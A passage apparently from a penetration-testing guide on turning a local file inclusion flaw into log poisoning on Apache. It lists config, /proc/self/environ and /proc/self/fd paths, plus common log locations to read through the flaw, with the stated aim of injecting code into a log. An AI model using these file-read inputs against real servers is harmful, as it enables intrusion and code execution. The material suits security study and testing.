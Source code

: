    ```bash
   ### Ubuntu
   
   /etc/apache2/apache2.conf
   
   /etc/apache2/httpd.conf
   /etc/apache2/apache2.conf
   /etc/httpd/httpd.conf
   /etc/httpd/conf/httpd.conf
   
   ### FreeBSD
   
   /usr/local/etc/apache2/httpd.conf
   /usr/local/etc/apache2(X)/httpd.conf # Replace (X) with the version
   
   ### Hidden site?
   
   /etc/apache2/sites-enabled/000-default.conf
   
   ### If variables are used in the config file, check this:
   
   /etc/apache2/envvars
   
   ### This rarely works, but see this page for more info https://www.exploit-db.com/papers/12886/
   /proc/self/environ
   
   ### If log files aren't available, you can roll the dice and hope to get logs in the proc.  You will need to enumerate all the numbers to see which number, if any, is getting logs.  You never know what you'll get and you may need to be creative, like looking for headers, login messages, anything
   /proc/self/fd/[SOMENUMBER]
   ```
   
4. The next step is to find a log file we can dump some code into AND load using the LFI.

   1. Use the config above to find the log files or try to load these common locations through the LFI (also see https://wiki.apache.org/httpd/DistrosDefaultLayout):

      ```bash
      # Ubuntu, Debian
      /var/log/apache2/error.log
      /var/log/apache2/access.log
      
      # Red Hat, CentOS, Fedora, OEL, RHEL
      /var/log/httpd/error_log
      /var/log/httpd/access_log
      /var/log/httpd/access.log
      /var/log/httpd/error.log
      
      # FreeBSD
      /var/log/httpd-error.log
      /var/log/httpd-access.log
      